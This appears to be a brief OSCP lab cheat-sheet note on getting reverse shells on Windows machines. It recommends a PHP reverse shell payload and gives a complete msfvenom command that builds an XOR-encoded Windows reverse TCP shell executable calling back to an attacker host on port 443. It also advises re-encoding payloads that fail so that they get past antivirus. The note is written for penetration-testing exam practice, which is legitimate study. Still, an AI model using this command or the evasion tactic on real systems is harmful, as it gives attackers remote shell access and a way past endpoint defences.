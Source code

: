 # Reverse Shell Windows

Which reverse shell do we use for a stable shell on a Windows machine if the web server runs PHP?

Choose PHP Ivan Sincek payload found on resources like revshells.com.

# AV Evasion

In OSCP labs, msfvenom should be enough

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f exe -e x64/xor_dynamic -i 5 -o reverse.exe

When a payload fails, try the same payload encoded. This simple tactic is a key time-saver.
